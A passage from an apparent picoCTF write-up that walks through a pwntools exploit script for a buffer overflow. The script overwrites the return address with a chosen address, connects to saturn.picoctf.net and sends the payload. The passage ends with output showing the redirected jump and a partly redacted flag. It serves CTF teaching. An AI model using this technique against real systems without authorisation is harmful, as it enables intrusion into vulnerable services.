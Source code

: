 ```python
					type=lambda x: int(x, 0), # This function converts the hexadecimal input to base 10. 
					required=True, 
					help="Address to overwrite the EIP with."
)

parser.add_argument(
	"--host", 
	type=str, 
	default="saturn.picoctf.net", 
	help="Remote host"
)

parser.add_argument(
	"--port",
	type=int,
	required=True, 
	help="Port to use when connecting to remote host."
)

args = parser.parse_args()
```

Now let's finally use `pwntools` to craft the payload.

```python
payload = b"A" * args.offset + p32(args.address) # Create a padding using garbage data and apply Little endian to the given address.
```

let's use `pwntools` once again to establish a connection to the remote host and send the payload (we will also log what gets outputted from the host's side).

```python
host, port = args.host, args.port

conn = remote(host, port)
log.info(conn.recvS())
conn.sendline(payload) # We send the payload
log.success(conn.recvallS())
conn.close()
```

Let's try running the script on the server:

```bash
$ python exploit.py --port=[PORT] --offset 44 --address=0x80491f6
[+] Opening connection to saturn.picoctf.net on port 65512: Done
[*] Please enter your string: 
[+] Receiving all data: Done (100B)
[*] Closed connection to saturn.picoctf.net port 65512
[+] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_[REDACTED]}
```
